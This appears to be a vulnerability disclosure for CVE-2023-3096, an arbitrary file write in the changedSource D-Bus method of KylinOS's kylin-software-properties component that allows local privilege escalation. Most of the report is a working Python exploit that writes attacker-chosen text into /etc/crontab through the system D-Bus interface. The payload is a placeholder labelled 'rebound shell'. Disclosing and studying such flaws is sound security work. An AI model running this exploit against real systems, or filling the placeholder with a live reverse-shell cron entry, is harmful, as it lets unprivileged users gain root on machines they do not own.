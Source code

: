 # Kylin OS kylin-software-properties arbitrary file write vuln
### CVE ID 
CVE-2023-3096
Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
kylin-software-properties is a component on KylinOS Desktop for setting system software properties. There is an arbitrary file writing vulnerability in the changedSource function of this component, which can lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
kylin-software-properties < 0.0.1-130
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def change_source(old, new, target):
    bus = dbus.SystemBus()
    obj = bus.get_object("com.kylin.software.properties", "/com/kylin/software/properties")
    proxy = dbus.Interface(obj, "com.kylin.software.properties.interface")
    print(proxy.changedSource([old, new, target]))

change_source("#", "rebound shell", "/etc/crontab")
os.system("grep -rn 'rebound shell' /etc/crontab")
```

